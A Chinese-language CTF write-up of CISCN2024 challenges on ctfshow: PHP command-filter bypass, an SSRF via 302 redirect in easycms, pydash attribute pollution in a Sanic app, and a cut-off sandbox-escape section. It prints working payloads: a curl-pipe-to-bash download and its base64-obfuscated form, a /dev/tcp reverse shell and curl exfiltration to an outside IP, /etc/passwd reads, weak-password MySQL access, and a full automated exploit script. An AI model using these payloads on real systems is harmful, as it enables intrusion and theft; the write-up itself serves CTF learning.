










+++
title = "CISCN2024"
slug = "ciscn2024"
description = "sanic污染冲"
date = "2024-12-12T14:20:33"
lastmod = "2024-12-12T14:20:33"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["ssrf", "php", "jail"]
+++

# 0x01 

当时只做出了签到的php(bushi)，现在来看看

# 0x02 question

## simple_php

```php
<?php
ini_set('open_basedir', '/var/www/html/');
error_reporting(0);

if(isset($_POST['cmd'])){
    $cmd = escapeshellcmd($_POST['cmd']); 
     if (!preg_match('/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|date|bash|env|\?|wget|\'|\"|id|whoami/i', $cmd)) {
         system($cmd);
}
}

show_source(__FILE__);
?>
```

直接就可以弹shell

```
curl http://156.238.233.9/shell.sh|bash
```

```
cmd=eval `ec\ho Y3VybCBo\dHRwOi8vMTU2LjIzOC4yMzMuOS9zaGVsbC5zaHxiYXNo|base\64 -d|s\h`
```

本地通了但是ctfshow没成功，和**大菜鸡**师傅问了一下，原来是靶机没有bash，那么直接截断绕过其实也可以

```http
POST / HTTP/1.1
Host: 93186233-bb78-435b-812e-67634ca5218e.challenge.ctf.show
Connection: keep-alive
Content-Length: 6
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://93186233-bb78-435b-812e-67634ca5218e.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://93186233-bb78-435b-812e-67634ca5218e.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

cmd=ca%0at+/etc/passwd
```

发现有mysql，再看看进程，

```
cmd=p%0as+-ef
```

可以进数据库看看，什么情况，直接猜弱密码

```
mysql -uroot -proot -e 'show databases;'
```

但是截断的这种打不了了，只能换了，还可以利用十六进制打，记得自己之前刷题的时候有做过，当时看着狗哥博客做的

```
php -r "phpinfo();"
# 但是这个远程不行
php -r eval(hex2bin(substr(_xxxxxx,1)));

echo `mysql -u root -p'root' -e 'show databases;'`;
cmd=php+-r+eval(hex2bin(substr(_6563686f20606d7973716c202d7520726f6f74202d7027726f6f7427202d652027757365205048505f434d533b73686f77207461626c65733b73656c656374202a2066726f6d20463161675f5365335265373b27603b,1)));

echo `mysql -u root -p'root' -e 'use PHP_CMS;show tables;'`;
cmd=php+-r+eval(hex2bin(substr(_6563686f20606d7973716c202d7520726f6f74202d7027726f6f7427202d652027757365205048505f434d533b73686f77207461626c65733b27603b,1)));

echo `mysql -u root -p'root' -e 'use PHP_CMS;select * from F1ag_Se3Re7'`;
cmd=php+-r+eval(hex2bin(substr(_6563686f20606d7973716c202d7520726f6f74202d7027726f6f7427202d652027757365205048505f434d533b73656c656374202a2066726f6d20463161675f53653352653727603b,1)));
```

## easycms

打一个ssrf，302跳转打

```php
<?php
header("location:http://127.0.0.1/flag.php?cmd=bash%20-c%20'bash%20-i%20>&%20/dev/tcp/156.238.233.9/4444%20<&1'");?>
```

但是还是不能弹shell，我们换成执行命令的就可以了

```php
<?php 
header("location:http://127.0.0.1/flag.php?cmd=curl http://156.238.233.9/a=`/readflag`");?>
```

```
/?s=api&c=api&m=qrcode&text=1&thumb=http://a.baozongwi.xyz/b.php
```

## sanic

这道题质量非常高，我什么时候能一样出这么好的题呢

```python
from sanic import Sanic
from sanic.response import text, html
from sanic_session import Session
import pydash
# pydash==5.1.2


class Pollute:
    def __init__(self):
        pass


app = Sanic(__name__)
app.static("/static/", "./static/")
Session(app)


@app.route('/', methods=['GET', 'POST'])
async def index(request):
    return html(open('static/index.html').read())


@app.route("/login")
async def login(request):
    user = request.cookies.get("user")
    if user.lower() == 'adm;n':
        request.ctx.session['admin'] = True
        return text("login success")

    return text("login fail")


@app.route("/src")
async def src(request):
    return text(open(__file__).read())


@app.route("/admin", methods=['GET', 'POST'])
async def admin(request):
    if request.ctx.session.get('admin') == True:
        key = request.json['key']
        value = request.json['value']
        if key and value and type(key) is str and '_.' not in key:
            pollute = Pollute()
            pydash.set_(pollute, key, value)
            return text("success")
        else:
            return text("forbidden")

    return text("forbidden")


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

首先就是`/login`路由的身份验证，但是因为是从cookie处获取，默认是`;`就给截断了，但是由于是python解析，我们可以使用进制绕过

```http
GET /login HTTP/1.1
Host: 7e1d7bbf-ce2e-4af9-9132-1ff5afe3a9c9.challenge.ctf.show
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: user="adm\073n"
sec-fetch-user: ?1


```

看到`/src`这里是使用的`open(__file__).read()`，也就是说如果我们能够污染或者说可控`__file__`就可以实现任意文件读取，看到`/admin`



发现使用了pydash，并且版本正确可以进行原型链污染，只不过这里需要绕过一下`_.`，这个绕过用`\`转义就可以绕过了，我们换上session就可以进行污染的尝试了

```
44755604126b4cbe977d27e6616427e1
```

```json
{"key":".__init__\\\\.__globals__\\\\.__file__","value": "/etc/passwd"}
```

访问`/src`发现成功污染了，接着污染`/flag`，发现不对，可能是因为flag的名字并未是这个？也就是说我们必须要有个东西能够列出根目录的文件，才能够污染拿到flag，但是怎么找呢，由于这个代码非常简短所以很容易就引导我们去`app`应用查找



跟进`static`

```python
    def static(
        self,
        uri: str,
        file_or_directory: Union[PathLike, str],
        pattern: str = r"/?.+",
        use_modified_since: bool = True,
        use_content_range: bool = False,
        stream_large_files: Union[bool, int] = False,
        name: str = "static",
        host: Optional[str] = None,
        strict_slashes: Optional[bool] = None,
        content_type: Optional[str] = None,
        apply: bool = True,
        resource_type: Optional[str] = None,
        index: Optional[Union[str, Sequence[str]]] = None,
        directory_view: bool = False,
        directory_handler: Optional[DirectoryHandler] = None,
    ):
        """Register a root to serve files from. The input can either be a file or a directory.

        This method provides an easy and simple way to set up the route necessary to serve static files.

        Args:
            uri (str): URL path to be used for serving static content.
            file_or_directory (Union[PathLike, str]): Path to the static file
                or directory with static files.
            pattern (str, optional): Regex pattern identifying the valid
                static files. Defaults to `r"/?.+"`.
            use_modified_since (bool, optional): If true, send file modified
                time, and return not modified if the browser's matches the
                server's. Defaults to `True`.
            use_content_range (bool, optional): If true, process header for
                range requests and sends  the file part that is requested.
                Defaults to `False`.
            stream_large_files (Union[bool, int], optional): If `True`, use
                the `StreamingHTTPResponse.file_stream` handler rather than
                the `HTTPResponse.file handler` to send the file. If this
                is an integer, it represents the threshold size to switch
                to `StreamingHTTPResponse.file_stream`. Defaults to `False`,
                which means that the response will not be streamed.
            name (str, optional): User-defined name used for url_for.
                Defaults to `"static"`.
            host (Optional[str], optional): Host IP or FQDN for the
                service to use.
            strict_slashes (Optional[bool], optional): Instruct Sanic to
                check if the request URLs need to terminate with a slash.
            content_type (Optional[str], optional): User-defined content type
                for header.
            apply (bool, optional): If true, will register the route
                immediately. Defaults to `True`.
            resource_type (Optional[str], optional): Explicitly declare a
                resource to be a `"file"` or a `"dir"`.
            index (Optional[Union[str, Sequence[str]]], optional): When
                exposing against a directory, index is  the name that will
                be served as the default file. When multiple file names are
                passed, then they will be tried in order.
            directory_view (bool, optional): Whether to fallback to showing
                the directory viewer when exposing a directory. Defaults
                to `False`.
            directory_handler (Optional[DirectoryHandler], optional): An
                instance of DirectoryHandler that can be used for explicitly
                controlling and subclassing the behavior of the default
                directory handler.

        Returns:
            List[sanic.router.Route]: Routes registered on the router.

        Examples:
            Serving a single file:
```

我们其实后面对每个属性都不用看，直接看两个属性，一个是`file_or_directory`，一个是`directory_view`



该函数的作用是 **为 Sanic 应用注册静态文件或静态目录**，并返回注册的路由信息。

- 如果 `file_or_directory` 是文件 → 访问该 URL 时直接返回该文件内容。
- 如果 `file_or_directory` 是目录 → 允许访问目录中的文件，甚至可以自动列出目录内容。

也就是说，我们首先污染`directory_view`为`True`，然后污染`file_or_directory`为`/`，拿到文件名就可以污染flag了，但是下一步该如何呢，我们应该怎么去获取到这个类和属性呢，看到下面出现了很多`directory_handler`所以直接跟进到`DirectoryHandler`(个人推荐自己起Docker来进行动态调试)，



可以看到初始化的时候就得到了属性名，但是只是知道这个属性在这里，并不知道如何的去获得这个属性，[sanic资料](https://www.cnblogs.com/ljc-0923/p/10391799.html) 在这篇文章里里面知道sanic自带路由，并且里面也有`app.add_route`怎么感觉可以注入内存马呢，不过这里我们先思考一下问题，那我们现在就是要获得注册的路由，`app.router.routes` 或`app.router.routes_layer`，那还是要自己起环境

```python
from sanic import Sanic
from sanic.response import text, html
import pydash
import subprocess

# pydash==5.1.2

class Pollute:
    def __init__(self):
        pass


app = Sanic(__name__)
app.static("/static/", "./static/")


@app.route("/src")
async def src(request):
    eval(request.args.get('rce'))
    return text(open(__file__).read())


@app.route("/admin", methods=['GET', 'POST'])
async def admin(request):
    key = request.json['key']
    value = request.json['value']
    if key and value and type(key) is str and '_.' not in key:
        pollute = Pollute()
        pydash.set_(pollute, key, value)
        return text("success")
    else:
        return text("forbidden")


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```



`/src?rce=print(app.router.routes[2])`得到`<Route: name=__mp_main__.static path=static/<__file_uri__:path>>`，那我们访问的时候就是

```json
"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.routes[2]"
```

不过后面尝试污染的时候发现这样子不行，并不能成功，必须要找个返回是列表的来进行访问，看gxn男神用的是`name_index`方法来进行访问的，我在网上查查资料也没找到，只能用这个了，直接打断点



然后我发现居然就打这个一个断点就能拿到答案了



```json
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory_view","value": true}
```

就可以把目录列出来了，访问`/stctic/`发现成功



```json
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory","value": "/"}
```

正准备拿flag呢，结果发现这样报错了，我们再次调试看看是为啥



原来`directory`是一个对象，并且`parts`才是路径，回到最开始的跟进，我们跟进`parts`，结果发现根本找不到`_parts`这个属性，然后尝试污染一下，发现仍然是报错，可能最新版的sanic已经没有了？感兴趣的师傅可以降版本回去找到这个，

经过本人的多次尝试可以知道他肯定是没有这个属性了

```
/src/?rce=print(app.router.name_index['__mp_main__.static'].handler.keywords['directory_handler'].directory['_parts'])
# 结果报错

/src/?rce=print(app.router.name_index['__mp_main__.static'].handler.keywords['directory_handler'].directory)
# E:\PyCharm\object\test\flask_demo\static

/src/?rce=print(app.router.name_index['__mp_main__.static'].handler.keywords['directory_handler'].directory_view)
# False
```

本来预期是返回一个列表，然后赋值即可，现在只能靠ctfshow的复现环境来了

```json
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory._parts","value": ["/"]}
```

拿到`24bcbd0192e591d6ded1_flag`

```json
{"key":".__init__\\\\.__globals__\\\\.__file__","value": "/24bcbd0192e591d6ded1_flag"}
```

顺便写个一把梭哈的脚本

```python
import time
import requests
import re

# 设置目标URL
url = "http://68fedf48-fdf7-4198-97d7-0b24f086966b.challenge.ctf.show/"

# 第一步：登录并获取 session
r1 = requests.get(url + "login", cookies={"user": '"adm\\073n"'})
time.sleep(0.05)
if "login success" in r1.text:
    set_cookie_header = r1.headers.get('Set-Cookie', '')
    session_value = None
    for cookie in set_cookie_header.split(','):
        if 'session=' in cookie:
            session_value = cookie.split('=')[1].split(';')[0]  # 提取 session 值
            break
    if session_value:
        print(f"Session 值记录成功: {session_value}")
    else:
        print("未找到 session 值，无法继续。")
        exit(1)
else:
    print("登录失败，无法获取 session。")
    exit(1)

# 第二步：构建污染 payload
data1 = {
    "key": "__class__\\\\.__init__\\\\.__globals__\\\\.__file__",  # 这将污染 Python 对象的 __file__ 属性
    "value": "/etc/passwd"  # 设置为敏感文件路径
}

# Step 2: 原型链污染 (数据2)
data2 = {
    "key": "__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory_view",
    "value": True
}

# Step 3: 修改路径处理 (数据3)
data3 = {
    "key": "__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory._parts",
    "value": ["/"]
}

# Step 2: 发起原型链污染请求
r2 = requests.post(url + "admin", cookies={"session": session_value}, json=data1)
time.sleep(0.05)
print(f"第二步请求响应: {r2.text} (状态码: {r2.status_code})")

# 检查第二步请求是否成功
if r2.status_code == 200 and "success" in r2.text:
    # 请求 static 目录以读取敏感数据
    time.sleep(0.05)
    r3 = requests.get(url + 'src')
    print(f"第三步请求响应: {r3.text} (状态码: {r3.status_code})")
else:
    print("第二步请求失败，无法进行原型链污染。")
    exit(1)

# Step 3: 发起数据2和数据3请求
r3 = requests.post(url + "admin", cookies={"session": session_value}, json=data2)
time.sleep(0.05)
r4 = requests.post(url + "admin", cookies={"session": session_value}, json=data3)
time.sleep(0.05)
r5 = requests.get(url + "static/", cookies={"session": session_value})
time.sleep(0.05)
print(f"第五步请求响应: {r5.text} (状态码: {r5.status_code})")

# 使用正则匹配 flag
if "flag" in r5.text:
    match = re.search(r'\b[A-Za-z0-9]+_flag\b', r5.text)
    if match:
        flag = match.group(0)
        print(f"Flag 被捕捉到: {flag}")
    else:
        print("未找到 flag。")
else:
    print("没有发现 flag。")
    exit(1)

# Step 4: 构建数据4并执行请求
data4 = {
    "key": "__class__\\\\.__init__\\\\.__globals__\\\\.__file__",  # 这将污染 Python 对象的 __file__ 属性
    "value": "/" + flag  # 设置为敏感文件路径
}

r6 = requests.post(url + "admin", cookies={"session": session_value}, json=data4)
time.sleep(0.05)
r7 = requests.get(url + 'src')
print(f"第七步请求响应: {r7.text} (状态码: {r7.status_code})")

```

## mossfern

一看题目描述，就很容易知道是python沙箱逃逸了



创建文件把代码放到里面然后再来运行
